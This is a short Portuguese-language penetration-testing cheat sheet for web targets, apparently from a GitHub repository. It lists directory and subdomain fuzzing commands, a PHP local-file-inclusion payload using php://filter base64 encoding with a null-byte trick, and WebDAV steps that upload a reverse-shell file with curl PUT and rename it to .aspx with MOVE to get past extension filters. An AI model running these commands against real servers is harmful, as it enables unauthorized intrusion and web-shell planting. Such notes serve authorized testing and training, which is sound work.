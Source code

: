 Enumeração de diretórios e arquivos:  
```bash
feroxbuster -u http://$RHOST/ -A -r -x txt -q -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -C 404 --dont-scan 'manual'`  
```

Enumeração de subdomínio:
```bash
wfuzz -u https://$RHOST -H "Host: FUZZ.dominio.com" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
```

## PHP  
Erro de include em PHP, faça o teste com filter para converter o arquivo em Base64:  
`http://$RHOST/?param=php://filter/read=convert.base64-encode/resource=[LFI]`  
Para ignorar a extensão no final da URL caso a mesma seja adicionada automaticamente, utilize Null Byte:  
`%00`

## Javascript
Desofuscação de código:
https://lelinhtinh.github.io/de4js/

# Webdav
Validar se é possível enviar arquivo ao servidor:
```shell
davtest -url $RHOST
```
Realizar upload caso seja possível:
``` bash
curl -X PUT http://$RHOST/<SHELL>.<EXT> -d @<SHELL>.<EXT>
```
Caso não seja possível subir uma extensão específica, podemos fazer o upload em um formato permitido e alterar a extensão do arquivo utilizando a opção de mover.
```bash
# Subir código da shell reversa em ASPX e armazenar no formato TXT
curl -X PUT http://$RHOST/shell.txt -d @shell.aspx
# Alterar a extensão do TXT para ASPX utilizando a opção MOVE
curl -X MOVE -H 'Destination:http://$RHOST/shell.aspx' http://$RHOST/shell.txt
```

# Bypass Regex
https://github.com/attackercan/regexp-security-cheatsheet